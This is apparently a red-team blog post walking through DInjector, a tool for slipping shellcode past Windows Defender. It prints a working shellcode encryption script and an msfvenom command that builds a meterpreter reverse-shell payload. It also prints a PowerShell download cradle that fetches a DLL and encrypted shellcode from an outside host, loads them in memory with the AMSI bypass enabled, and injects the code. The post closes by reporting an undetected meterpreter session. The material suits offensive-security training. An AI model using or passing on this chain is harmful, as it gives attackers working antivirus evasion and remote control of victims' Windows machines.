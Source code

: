 ```yaml
---
layout: single
title: "Trying out DInjector as a AV/EDR bypassing tool, fully ported to DInvoke APIs"
date: 2021-10-26
tags:  
  - windows
  - avbypass
  - dinvoke
  - windows-defender
author_profile: true
---
```


Hello back fellow red teamers. I decided to come make a blog post after a little of long period in which I lost all of my other blog posts.

Lately I have been focused on Windows stuff, such as excercises on trying to bypass Windows Defender through trial and errors etc as a practice to help me make some preparations for a possible OSEP attempt lol.

I came across some amazing repos which I though would be worth to explain on a blog.

First let's take a view :

- [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
 
DInvoke is dynamic replacement for PInvoke and contains powerful primitives that can be combined to dynamically invoke unmanaged code from disk or from memory.

You can have this reference for a deeper explaination on what DInvoke does and what it really is : [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)

While desperatly googling about examples of DInvoke being used on an actual Proof of Concept for silent Code Execution I ended up finding this amazing tool which is fully ported on DInvoke APIs : [https://github.com/snovvcrash/DInjector](https://github.com/snovvcrash/DInjector)

```
(    (
     )\ ) )\ )                   )             (   (  (
    (()/((()/(     (    (     ( /(    (        )\ ))\ )\
     /(_))/(_))(   )\  ))\ (  )\())(  )(      (()/((_|(_)
    (_))_(_))  )\ |(_)/((_))\(_))/ )\(()\      ((_))  _
     |   \_ _|_(_/( !(_)) ((_) |_ ((_)((_)     _| | || |
     | |) | || ' \)) / -_) _||  _/ _ \ '_|  _/ _` | || |
     |___/___|_||_|/ \___\__| \__\___/_|   (_)__,_|_||_|
                 |__/-----------------------------------
                                                K E E P
                                                C A L M
                                                  A N D
                                       D / I N 💉 E C T
                                      S H E L L C O D E
```

The repo consists of a shellcode encrypter which makes use of `xor` or `aes` algorithms and encrypts the file with a password using sha256 and the DLL project which we will be loading into the memory to execute code.

- encrypter.py

```python
#!/usr/bin/env python3

import os
import hashlib
from base64 import b64encode
from argparse import ArgumentParser

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend


class AES:

	def __init__(self, password, iv): 
		self.key = hashlib.sha256(password.encode()).digest()
		self.iv = iv

	def encrypt(self, raw):
		backend = default_backend()
		padder = padding.PKCS7(128).padder()
		raw = padder.update(raw) + padder.finalize()
		cipher = Cipher(algorithms.AES(self.key), modes.CBC(self.iv), backend=backend)
		encryptor = cipher.encryptor()
		return self.iv + encryptor.update(raw) + encryptor.finalize()


def parse_args():
	parser = ArgumentParser()
	parser.add_argument('shellcode_bin', action='store', type=str)
	parser.add_argument('-p', '--password', action='store', type=str, required=True)
	parser.add_argument('-a', '--algorithm', action='store', type=str, default='aes', choices=['aes', 'xor'])
	parser.add_argument('-o', '--output', action='store', type=str)
	parser.add_argument('--base64', action='store_true', default=False)
	return parser.parse_args()


if __name__ == '__main__':
	args = parse_args()

	with open(args.shellcode_bin, 'rb') as fd:
		shellcode = fd.read()

	if args.algorithm == 'aes':
		iv = os.urandom(16)
		ctx = AES(args.password, iv)
		enc = ctx.encrypt(shellcode)
	elif args.algorithm == 'xor':
		enc = bytearray(b ^ ord(args.password) for b in shellcode)

	if args.base64:
		print(b64encode(enc).decode())
	else:
		with open(args.output, 'wb') as fd:
			fd.write(enc)
		print(f'[+] Encrypted shellcode file: {args.output}')
```

I could use Visual Studio to compile the DLL project but doing everything in linux just fits in perfectly. I wasnt aware there was a developer tool such as ``monodeveloper`` which could handle `C#` and `.NET` compiling on linux.

![img1](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/DInjector1.png)

The walkthrough after compiling the DLL is pretty much straightforwards, I am going to create a meterpreter shellcode and have the output as raw : 

```bash
pi0x73@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=192.168.88.142 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 906 bytes
Saved as: shellcode.bin
```

Setting up a listener which will serve the DLL to be loaded and the shellcode : 

![img2](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img2.png)

Before executing let's make sure Windows Defender is up to date.

![img3](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img3.png)

To load the DLL into the memory and call the shellcode you might want to run cradle.ps1 if you dont want to do it manually...

```powershell
# MODULE
$M = "currentthread"

# LHOST
$H = "192.168.88.142"

# AMSI
$A = "true"

# DLL
$D = "DInjector.dll"

# SHELLCODE
$S = "enc"

# PASSWORD
$P = "hahaWOW!!encrypt"

# PROCESS
$N = "notepad"

# IMAGE
$I = "C:\Windows\System32\svchost.exe"

# --------------------------------------------------------------------

$methods = @("remotethread", "remotethreadsuspended")
if ($methods.Contains($M)) {
    $N = (Start-Process -WindowStyle Hidden -PassThru $N).Id
}

$cmd = "$M /am51:$A /sc:http://$H/$S /password:$P /pid:$N /image:$I"

$data = (IWR -UseBasicParsing "http://$H/$D").Content
$assem = [System.Reflection.Assembly]::Load($data)

$flags = [Reflection.BindingFlags] "NonPublic,Static"

$class = $assem.GetType("DInjector.Detonator", $flags)
$entry = $class.GetMethod("Boom", $flags)

$entry.Invoke($null, (, $cmd.Split(" ")))
```

Clean execution , no trigger of the Antivirus and a functional meterpreter session!

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img4.png)
